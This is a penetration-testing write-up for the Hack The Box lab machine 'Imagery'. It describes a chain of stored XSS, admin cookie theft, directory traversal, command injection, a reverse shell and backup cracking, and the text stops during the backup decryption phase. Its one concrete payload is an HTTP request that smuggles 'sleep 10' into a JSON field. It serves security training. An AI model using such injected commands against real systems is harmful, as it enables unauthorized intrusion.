# Hack The Box - Imagery
Penetration testing report for the Hack The Box Imagery machine.

## Overview

Imagery is a Linux-based Hack The Box machine that focuses on web application security assessment. The attack path demonstrates a realistic compromise of a modern Python web application by chaining multiple vulnerabilities, beginning with web application reconnaissance and culminating in full system compromise.

The assessment covers the complete attack lifecycle, including application enumeration, authenticated functionality analysis, source code review, credential recovery, lateral movement, and local privilege escalation.

Successful exploitation resulted in administrative access to the web application, remote code execution as the web service account, compromise of a secondary system user, and ultimately full root access to the target.

## Scope

This assessment was conducted against the Hack The Box machine **Imagery** within the controlled Hack The Box laboratory environment.

The objective of the engagement was to identify, validate, and document security vulnerabilities that could allow an attacker to compromise the target system. All testing was performed from the perspective of an external attacker with no prior knowledge of the target beyond the assigned IP address.

The assessment included:

- Network reconnaissance
- Web application enumeration
- Authentication and session analysis
- API assessment
- Source code review
- Vulnerability validation
- Remote code execution
- Credential recovery
- Lateral movement
- Local privilege escalation

The assessment concluded with full administrative (root) access to the target system.

## Target Information

| Property | Value |
|----------|-------|
| Platform | Hack The Box |
| Target | Imagery |
| Operating System | Linux |
| Assessment Type | Black-box Penetration Test |
| Result | Full System Compromise (Root) |

## Methodology

The assessment followed a structured penetration testing methodology designed to emulate the actions of a real-world attacker while maintaining complete documentation throughout the engagement.

The workflow consisted of the following phases:

1. Initial reconnaissance and service enumeration.
2. Web application mapping and endpoint discovery.
3. Analysis of application functionality and authentication mechanisms.
4. Vulnerability identification and validation.
5. Initial access through verified exploitation.
6. Post-exploitation enumeration.
7. Credential discovery and recovery.
8. Lateral movement between compromised accounts.
9. Local privilege escalation.
10. Documentation and evidence collection.

Every significant finding was documented immediately after successful validation. Supporting evidence, including screenshots, HTTP requests, application source code, command outputs, and recovered artifacts, was collected during each phase to ensure the assessment remained fully reproducible.

## Executive Summary

The assessment identified a chain of vulnerabilities that allowed complete compromise of the target system.

The attack began with web application reconnaissance, leading to the discovery of multiple authenticated API endpoints and a stored Cross-Site Scripting (Stored XSS) vulnerability. Successful exploitation enabled administrator session hijacking, which provided access to privileged functionality.

Further assessment revealed a directory traversal vulnerability that exposed sensitive application files, including the application's source code and user database. Source code review identified an operating system command injection vulnerability within the image transformation functionality, resulting in remote code execution as the web application user.

Post-exploitation activities uncovered an encrypted backup archive containing historical application data. After recovering the backup password and extracting its contents, additional user credentials were recovered, allowing lateral movement to a secondary system account.

Finally, analysis of a custom privileged backup utility exposed a privilege escalation path that resulted in full root access to the target system.

## Attack Chain

The following sections document the complete attack path from initial reconnaissance to full system compromise. Each phase includes the techniques used, supporting evidence, and the resulting security impact.

### 1. Initial Enumeration

#### Objective

The objective of the initial reconnaissance phase was to identify exposed network services, determine the technologies running on the target host, and establish an initial attack surface for further assessment.

#### Actions Performed

```bash
nmap -sC -sV -vv -oA nmap/imagery <TARGET_IP>
```

A TCP port scan was performed against the target using Nmap to enumerate accessible services and identify their versions. Service detection was enabled to obtain additional information about the operating system and application stack.

#### Results

The scan identified two exposed TCP services:

- TCP/22 – OpenSSH
- TCP/8000 – HTTP web application

The web application running on port 8000 became the primary focus of the assessment due to its significantly larger attack surface.

#### Security Impact

The initial reconnaissance phase established the target's externally exposed attack surface and identified the web application as the primary entry point for the remainder of the assessment.

#### Evidence

**Figure 01 – Initial Nmap Scan (Part 1)**



*Initial TCP service enumeration using Nmap (Part 1).*

---

**Figure 02 – Initial Nmap Scan (Part 2)**



*Initial TCP service enumeration using Nmap (Part 2).*

---

**Supporting Artifact**

- [`01_initial_nmap.txt`](evidence/files/01_initial_nmap.txt)

### 2. Web Application Reconnaissance

#### Objective

Following the identification of the exposed HTTP service, the objective of this phase was to map the application's functionality, identify accessible endpoints, understand the authentication workflow, and discover potential attack vectors within the web application.

#### Actions Performed

The web application was manually explored while monitoring all traffic using Burp Suite. Publicly accessible pages, API endpoints, and application functionality were examined to understand the overall architecture and identify potentially vulnerable features.

Particular attention was given to user interaction points, file upload functionality, bug reporting features, and authenticated application endpoints.

#### Results

The reconnaissance phase identified multiple application endpoints and revealed several areas requiring further investigation, including the bug reporting functionality and image processing features.

The discovered attack surface provided the foundation for the subsequent vulnerability assessment.

#### Security Impact

The identified application functionality significantly expanded the potential attack surface and provided several promising vectors for further security assessment.

#### Evidence

**Figure 03 – Discovered API Endpoints**



*Enumeration of publicly accessible application endpoints.*

---

**Figure 04 – Bug Report Rendering Logic**



*Analysis of the bug reporting functionality during application reconnaissance.*

---

**Supporting Artifact**

- [`02_discovered_api_endpoints.txt`](evidence/files/02_discovered_api_endpoints.txt)

### 3. Stored Cross-Site Scripting (Stored XSS)

#### Objective

The objective of this phase was to evaluate whether user-controlled input submitted through the application could be executed within another user's browser, potentially leading to session compromise or privilege escalation.

#### Actions Performed

The bug reporting functionality was tested for input validation and output encoding weaknesses. A JavaScript payload was submitted through the application and later rendered within the administrator's browser during the review process.

The payload was designed to trigger an outbound request to an attacker-controlled server, confirming successful execution.

#### Results

The assessment confirmed the presence of a Stored Cross-Site Scripting (Stored XSS) vulnerability.

Because the payload executed within the administrator's authenticated session, it became possible to capture sensitive session information and continue the assessment using administrator privileges.

#### Security Impact

Successful exploitation allowed attacker-controlled JavaScript to execute within the administrator's browser, creating the opportunity to compromise authenticated administrative sessions.

#### Evidence

**Figure 05 – Stored XSS Request**



*Stored Cross-Site Scripting payload submitted through the bug reporting functionality.*

---

**Figure 06 – Stored XSS Callback**



*Successful execution of the Stored XSS payload within the administrator's authenticated browser session.*

### 4. Administrator Session Hijacking

#### Objective

Following the successful confirmation of the Stored Cross-Site Scripting vulnerability, the objective of this phase was to determine whether the vulnerability could be leveraged to compromise an authenticated administrator session and gain access to privileged application functionality.

#### Actions Performed

A JavaScript payload executed within the administrator's browser was used to exfiltrate the active session cookie to an attacker-controlled listener. The captured session identifier was then imported into the attacker's browser and validated against the application.

Once authenticated as the administrator, additional administrative functionality became accessible for further assessment.

#### Results

The assessment confirmed that the Stored XSS vulnerability could be successfully chained with session hijacking, resulting in unauthorized administrative access to the application.

The newly acquired privileges significantly expanded the available attack surface and enabled further authenticated testing.

#### Security Impact

Compromise of the administrator's authenticated session resulted in unauthorized access to privileged application functionality that was otherwise inaccessible to external users.

#### Evidence

**Figure 07 – Administrator Cookie Exfiltration**



*Administrator session cookie successfully exfiltrated via the Stored XSS payload.*

---

**Figure 08 – Administrator Session Validation**



*Validation of the compromised administrator session.*

---

**Figure 09 – Administrator Users Endpoint**



*Administrative functionality accessible after successful session hijacking.*

### 5. Authenticated API Enumeration

#### Objective

The objective of this phase was to enumerate administrative functionality exposed through authenticated API endpoints and identify features that could provide access to sensitive information or introduce additional attack vectors.

#### Actions Performed

After obtaining administrator access, the available API endpoints were systematically explored. Administrative functionality, request parameters, and server responses were analysed to understand the application's internal behaviour and identify areas requiring further investigation.

Particular attention was given to endpoints interacting with application files and image processing functionality.

#### Results

Authenticated enumeration revealed multiple privileged endpoints that were inaccessible to unauthenticated users. The assessment also identified functionality that ultimately led to the discovery of a directory traversal vulnerability and additional application source code.

The authenticated attack surface provided the basis for the next stage of the assessment.

#### Security Impact

Authenticated access exposed additional administrative functionality that substantially increased the available attack surface and enabled the discovery of further vulnerabilities.

#### Evidence

Authenticated API enumeration was performed using the compromised administrator session established during the previous phase.

### 6. Directory Traversal

#### Objective

The objective of this phase was to determine whether the application improperly validated user-supplied file paths, potentially allowing unauthorized access to sensitive files stored on the server.

#### Actions Performed

File retrieval functionality exposed through the administrative interface was analysed by modifying user-controlled path parameters. Multiple traversal sequences were tested to evaluate whether the application restricted access to files outside the intended directory.

Successful requests were used to retrieve both operating system files and application source code.

#### Results

The assessment confirmed the presence of a directory traversal vulnerability.

Successful exploitation exposed sensitive application resources, including system files, application source code, and the application's database containing user account information.

The disclosure of source code substantially improved the understanding of the application's internal implementation and directly contributed to the discovery of subsequent vulnerabilities.

#### Security Impact

The directory traversal vulnerability exposed sensitive application resources that should never have been accessible to an attacker, including source code and application data.

#### Evidence

**Figure 10 – Directory Traversal (/etc/passwd)**



*Successful directory traversal allowing arbitrary file disclosure.*

---

**Figure 11 – app.py Source Code**



*Disclosure of the application's main source code.*

---

**Figure 12 – config.py Source Code**



*Disclosure of application configuration settings.*

---

**Figure 13 – Database Disclosure**



*Disclosure of the application's JSON data store.*

---

**Supporting Artifacts**

- [`03_app_py_source.txt`](evidence/files/03_app_py_source.txt)
- [`04_config_py_source.txt`](evidence/files/04_config_py_source.txt)
- [`05_db_json_disclosure.txt`](evidence/files/05_db_json_disclosure.txt)

### 7. Source Code Review

#### Objective

The objective of this phase was to analyse the disclosed application source code to understand the internal implementation, identify insecure programming practices, and discover vulnerabilities that were not directly observable through black-box testing alone.

#### Actions Performed

The disclosed Python source code was systematically reviewed, focusing on authentication logic, file handling routines, administrative functionality, and image processing operations.

Special attention was given to functions responsible for invoking operating system commands, processing user-controlled input, and interacting with external binaries.

#### Results

The source code review identified an operating system command injection vulnerability within the image transformation functionality.

User-controlled parameters were passed to a shell command without adequate validation or sanitisation, allowing arbitrary command execution under the privileges of the web application.

This finding provided a reliable path to remote code execution and became the primary exploitation vector for obtaining an initial shell on the target system.

#### Security Impact

Access to the application's source code enabled precise identification of insecure implementation details that directly led to reliable remote code execution.

#### Evidence

---

**Figure 14 – Command Injection Code Path**



*Source code responsible for the vulnerable image transformation workflow.*

---

**Supporting Artifacts**

- [`03_app_py_source.txt`](evidence/files/03_app_py_source.txt)
- [`04_config_py_source.txt`](evidence/files/04_config_py_source.txt)
- [`06_api_edit_py_source.txt`](evidence/files/06_api_edit_py_source.txt)

### 8. Command Injection

#### Objective

The objective of this phase was to verify whether the identified command injection vulnerability could be reliably exploited to execute arbitrary operating system commands on the target host.

#### Actions Performed

A series of controlled payloads were submitted through the vulnerable image transformation functionality to validate command execution while minimising the impact on the target system.

Initial testing focused on non-destructive payloads, including time-based validation, before progressing to a reverse shell payload after successful confirmation.

The following time-based payload was used to confirm command execution:

```http
POST /apply_visual_transform HTTP/1.1
Host: <TARGET_IP>:8000
Content-Type: application/json
Cookie: session=[REDACTED]

{
  "imageId": "9de47f46-edf5-4485-864b-af325261921c",
  "transformType": "crop",
  "params": {
    "x": "5;sleep 10;",
    "y": 4,
    "width": 1098,
    "height": 931
  }
}
```

#### Results

Command execution was successfully confirmed.

A time-based payload introduced a measurable execution delay, demonstrating that arbitrary operating system commands were being processed by the server.

Following successful validation, the vulnerability was leveraged to establish a reverse shell to the attacker-controlled host.

#### Security Impact

Successful command injection resulted in arbitrary operating system command execution under the privileges of the web application.

#### Evidence

**Figure 16 – Time-based Command Injection Confirmation**



*Time-based payload confirming arbitrary operating system command execution.*

---

**Supporting Artifact**

- [`07_command_injection_sleep10_request.txt`](evidence/files/07_command_injection_sleep10_request.txt)

### 9. Initial Foothold (web)

#### Objective

The objective of this phase was to obtain stable remote command execution on the target system and begin post-exploitation activities under the context of the compromised web application account.

#### Actions Performed

A reverse shell payload was delivered through the confirmed command injection vulnerability, establishing an interactive shell as the web application user.

The shell was subsequently stabilised to improve usability and enable efficient post-exploitation enumeration.

Initial enumeration focused on identifying accessible application files, user accounts, configuration data, and potential privilege escalation opportunities.

#### Results

A stable shell was successfully established as the **web** service account.

Post-exploitation enumeration led to the discovery of an encrypted application backup archive, which ultimately became the key to compromising an additional local user account.

#### Security Impact

Initial access to the target system enabled comprehensive post-exploitation enumeration and facilitated the discovery of additional attack paths.

#### Evidence

**Figure 17 – Initial Web Shell**



*Initial reverse shell established as the **web** service account.*

### 10. Backup Archive Discovery

#### Objective

The objective of this phase was to identify sensitive files accessible to the compromised **web** account that could provide additional credentials, application data, or privilege escalation opportunities.

#### Actions Performed

Post-exploitation enumeration of the web application's directories revealed an encrypted backup archive stored on the target system. The archive was copied from the target host to the attacker's workstation for offline analysis in order to avoid unnecessary interaction with the production environment.

The backup file was preserved in its original state before any further analysis.

#### Results

An AES-encrypted application backup archive was successfully recovered.

Although its contents were initially inaccessible, the discovery represented a valuable source of historical application data and became the primary focus of the subsequent investigation.

#### Security Impact

The recovered backup archive represented a valuable source of historical application data and significantly expanded post-exploitation opportunities.

#### Evidence

**Figure 18 – Backup Archive Discovery**



*Discovery of the encrypted application backup archive during post-exploitation.*

### 11. Backup Decryption

#### Objective

The objective of this phase was to recover the contents of the encrypted application backup without modifying the original archive.

#### Actions Performed

Offline analysis of the backup archive identified the correct decryption password. After successful validation, the archive was decrypted and extracted in a controlled environment on the attacker's workstation.

The extracted files were analysed to identify credentials, configuration files, and historical application data.

#### Results

The encrypted backup was successfully decrypted.

The extracted archive contained a historical copy of the application's database together with additional application resources that were no longer directly accessible from the running system.

The recovered database became the basis for the next phase of credential recovery.

#### Security Impact

Successful decryption exposed historical application data that was intended to remain protected, enabling additional credential recovery.

#### Evidence

**Figure 19 – AES Backup Password Cracked**

